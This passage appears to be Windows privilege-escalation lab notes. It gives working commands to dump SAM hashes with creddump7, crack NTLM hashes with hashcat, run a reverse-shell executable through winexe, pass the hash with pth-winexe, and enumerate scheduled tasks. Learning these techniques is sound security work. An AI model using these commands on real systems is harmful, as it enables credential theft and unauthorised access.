 Dumping Hashes using creddump7 suite

```zsh
 python2 pwdump.py /root/tools/SYSTEM /root/tools/SAM
```

On analysis the LM hashes are same meaning. They are empty and deprecated and the second part of the hash is the NTLM hash which is different for different users. If it begins 31d6 then it is for  a default account with no password or disabled.

Hashes can be cracked using hashcat

```zsh
hashcat -m 1000 --force a9fdfa038c4b75ebc76dc855dd74f0da /usr/share/wordlists/rockyou.txt
```

Login using winexe

```zsh
winexe -U 'admin%password123' --system //192.168.158.153 'C:\PrivEsc\reverse.exe'

```

### Passing the Hash
Windows accepts hashes instead of passwords to authenticate  to anumber of services. We can use a modified version of winexe, pth-winexe to spawn a command prompt as admin using admin hash

```zsh
pth-winexe -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.158.153 cmd.exe
```
Please note to remove the dots in the end and anything between the username and the LM hash with a % symbol

```zsh
 pth-winexe --system  -U 'admin%aad3b435b51404eeaad3b435b51404ee:a9fdfa038c4b75ebc76dc855dd74f0da' //192.168.158.153 cmd.exe
```

## Scheduled Tasks

Windows can be configured to run tasks at specific times, periodically (e.g. every 5 mins) or when triggered by some event (e.g. a user logon).Tasks usually run with the privileges of the user who created them, however administrators can configure tasks to run as other users,including SYSTEM.

```cmd
 schtasks /query /fo LIST /v
```
In powershell

```ps
 Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State

```
Just use your brain like happens in Linux cron jobs

## Insecure GUI Apps(Citrix Method)
